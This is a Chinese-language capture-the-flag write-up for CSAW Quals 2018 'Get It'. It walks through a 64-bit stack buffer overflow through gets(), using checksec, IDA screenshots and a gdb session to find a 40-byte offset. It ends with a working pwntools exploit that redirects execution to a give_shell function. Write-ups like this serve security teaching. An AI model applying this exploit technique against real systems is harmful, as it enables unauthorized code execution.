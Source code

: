 # 2.4 Csaw Quals 2018 Get It
首先查看ELF的安全机制

```python
[*] '/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw18_getit/get_it'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
64位程序没有开启canary & PIE

运行程序

![image](images/76784372.png)

使用IDA查看

![image](images/76908397.png)

还有一个give\_shell函数

![image](images/78318956.png)

程序很简单，就是获取一个输入，那么就只能覆盖RIP，进行RCE了，要覆盖RIP，就必须在RIP中填入shellcode的地址，这里我们只需要在RIP中填入give\_shell函数的地址即可(在栈canary没有开启的情况下)



![image](images/77571572.png)

在X64架构中，rbp的地址为rbp+0x00, rip跟rbp相差0x8个字节，rip的地址为rbp+0x8

从汇编代码中可以看到，v4变量对应的是var\_20，地址为rbp-0x20，其中还有两个多余的变量var\_24, var\_30，这里我们不需要管，这两个变量不影响var\_20，因为在他们不在var\_20和rbp之间，栈的结构如下(底部是栈顶)：

RETURN ADDRESS

RBP

ALIGNMENT SPACE

ALIGNMENT SPACE

VAR\_20

VAR\_24

VAR\_30

ESP

所以在这个程序中，var\_20跟rip之间相差了0x20 + 0x8 = 40个字节

使用gdb调试查看

```python
[----------------------------------registers-----------------------------------]
RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7dcfa00 --> 0xfbad2288 
RDX: 0x7ffff7dd18d0 --> 0x0 
RSI: 0x602675 --> 0xa ('\n')
RDI: 0x7fffffffdcc5 --> 0x4004c0000000 
RBP: 0x7fffffffdce0 --> 0x400600 (<__libc_csu_init>:    push   r15)
RSP: 0x7fffffffdcb0 --> 0x7fffffffddc8 --> 0x7fffffffe16c ("/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw18_getit/get_it")
RIP: 0x4005f6 (<main+47>:   leave)
R8 : 0x602676 --> 0x0 
R9 : 0x7ffff7b52940 (<__memcpy_ssse3+8688>: mov    edx,DWORD PTR [rsi-0x4])
R10: 0x602010 --> 0x0 
R11: 0x7ffff7ba0ec0 --> 0xfffb14e0fffb1318 
R12: 0x4004c0 (<_start>:    xor    ebp,ebp)
R13: 0x7fffffffddc0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x4005e7 <main+32>:  mov    eax,0x0
   0x4005ec <main+37>:  call   0x4004a0 <gets@plt>
   0x4005f1 <main+42>:  mov    eax,0x0
=> 0x4005f6 <main+47>:  leave  
   0x4005f7 <main+48>:  ret    
   0x4005f8:    nop    DWORD PTR [rax+rax*1+0x0]
   0x400600 <__libc_csu_init>:  push   r15
   0x400602 <__libc_csu_init+2>:    push   r14
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdcb0 --> 0x7fffffffddc8 --> 0x7fffffffe16c ("/home/lex/Project/nightmare/modules/05-bof_callfunction/csaw18_getit/get_it")
0008| 0x7fffffffdcb8 --> 0x100000000 
0016| 0x7fffffffdcc0 --> 0x6161616161 ('aaaaa')
0024| 0x7fffffffdcc8 --> 0x4004c0 (<_start>:    xor    ebp,ebp)
0032| 0x7fffffffdcd0 --> 0x7fffffffddc0 --> 0x1 
0040| 0x7fffffffdcd8 --> 0x0 
0048| 0x7fffffffdce0 --> 0x400600 (<__libc_csu_init>:   push   r15)
0056| 0x7fffffffdce8 --> 0x7ffff7a05b97 (<__libc_start_main+231>:   mov    edi,eax)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004005f6 in main ()
gdb-peda$ i f
Stack level 0, frame at 0x7fffffffdcf0:
 rip = 0x4005f6 in main; saved rip = 0x7ffff7a05b97
 called by frame at 0x7fffffffddb0
 Arglist at 0x7fffffffdce0, args: 
 Locals at 0x7fffffffdce0, Previous frame's sp is 0x7fffffffdcf0
 Saved registers:
  rbp at 0x7fffffffdce0, rip at 0x7fffffffdce8
gdb-peda$ x/g $rbp+0x8
0x7fffffffdce8: 0x00007ffff7a05b97
gdb-peda$ searchmem aaaa
Searching for 'aaaa' in: None ranges
Found 2 results, display max 2 items:
 [heap] : 0x602670 --> 0xa6161616161 ('aaaaa\n')
[stack] : 0x7fffffffdcc0 --> 0x6161616161 ('aaaaa')
```
所以 0x7fffffffdce8 - 0x7fffffffdcc0 = 40，从IDA中可以得到give\_shell函数的地址为 0x4005B6，exploit如下：

```python
#!/usr/bin/env python

from pwn import *
payload = 'A' * 40 + p64(0x4005B6)
target = process('./get_it')
target.sendline(payload)
target.interactive()
```